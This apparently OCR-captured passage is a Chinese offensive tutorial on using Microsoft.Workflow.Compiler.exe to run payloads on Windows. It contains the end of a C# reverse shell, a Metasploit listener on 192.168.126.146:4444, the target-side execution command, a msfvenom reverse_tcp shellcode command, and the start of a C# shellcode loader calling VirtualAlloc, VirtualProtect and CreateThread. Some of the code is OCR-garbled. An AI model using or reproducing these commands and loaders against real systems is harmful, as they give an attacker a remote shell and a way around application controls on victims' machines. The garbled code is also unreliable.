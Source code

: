 ```csharp
{
StringBuilder strOutput = new StringBuilder();
if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}
}
```

**设置监听**

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

**靶机执行payload**

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml add.tcp
```

未能成功获取到会话，使用方法2进行利用。

### 方法2

**Msf生成shellcode**

```bash
msfvenom  -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

```cs
using System;

using System.Workflow.Activities;

using System.Net;

using System.Net.Sockets;

using System.Runtime.InteropServices;

using System.Threading;

class yrDaTlg : SequentialWorkflowActivity {

[DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 rCfMkmxRSAakg,UInt32 qjRsrljIMB, UInt32 peXiTuE, UInt32 AkpADfOOAVBZ);

[DllImport("kernel32")] public static extern bool VirtualProtect(IntPt rDStOGXQMMkP, uint CzzIpcuQppQSTBJ, uint JCFImGhkRqtwANx, out uint exgVp Sg);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 eisuQbXKYbAvA, UInt32 WQATOZaFz, IntPtr AEGJQOn,IntPtr SYcfyeeSgPl, UInt32 ZSheqBwKtDf, ref UInt32 SZtdSB);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr KqJNFlHpsKOV, UInt32 EYBOArlCLAM);
```